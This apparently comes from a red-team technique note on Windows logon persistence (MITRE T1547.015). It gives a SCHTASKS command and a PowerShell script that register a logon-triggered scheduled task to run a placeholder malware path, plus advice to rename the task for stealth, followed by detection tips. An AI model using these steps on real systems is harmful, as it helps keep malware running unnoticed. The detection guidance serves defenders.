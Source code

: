 # [Login item](https://attack.mitre.org/techniques/T1547/015/)

## Exploit syntax:

* SCHTASKS /CREATE /SC ONLOGON /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

1. Create ps1 file and input the following:

    ```powershell   

    # Here outpath is the location that your persistent file is.
    $outpath = "<path to malware"
    $action = New-ScheduledTaskAction -Execute $outpath
    $time = New-TimeSpan -Minutes 1

    $trigger = New-ScheduledTaskTrigger -AtLogon -RandomDelay $time

    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Logon Item Persistence" -Description "This is a POC for Login-Items persistence."
    
    ```
>*Note*: You should also change the name of the `-Taskname` and `-Description` fields for better OPSEC

2. Execute the following command:

    ```powershell

    pslo <name of the above codeblock>.ps1 

    ```


## Detection Technique
* Look at new file made in:
    * C:\Windows\System32\Tasks
* Investigate file creation in the default windows task folder - C:\Windows\System32\Tasks folder.
* Associate logon events (4624) within same time frame as execution of suspicious applications.
* This would involve two seperate searches, One search to identify process creation (Sysmon event code 1) of the malware and then another search of windows event code 4624 around the same time stamp on the victim workstation.
